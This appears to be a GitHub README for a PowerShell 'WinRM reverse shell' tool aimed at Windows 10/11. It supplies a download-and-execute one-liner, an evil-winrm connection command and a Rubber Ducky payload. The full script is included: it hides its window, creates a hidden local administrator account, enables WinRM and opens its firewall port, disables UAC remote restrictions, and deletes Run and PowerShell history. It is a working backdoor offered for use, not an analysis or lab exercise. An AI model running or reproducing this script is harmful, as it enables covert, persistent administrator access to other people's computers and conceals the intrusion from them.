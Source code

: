 # WinRM-Reverse-Shell
+ Works on Windows 10/11

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 



https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec



# Script into pieces
## Function to hide a window
function Hide-Window {
    param(
        [IntPtr]$Handle = (Get-Process -PID $PID).MainWindowHandle
    )
    Add-Type @"
    using System;
    using System.Runtime.InteropServices;

    public class Window {
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
    }
"@
    [void][Window]::ShowWindow($Handle, 0)
}

## Hide the current PowerShell window
Hide-Window

## Create a new local user account
$Username = "Admin"
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Delete run box history
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -Force

## Delete powershell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script

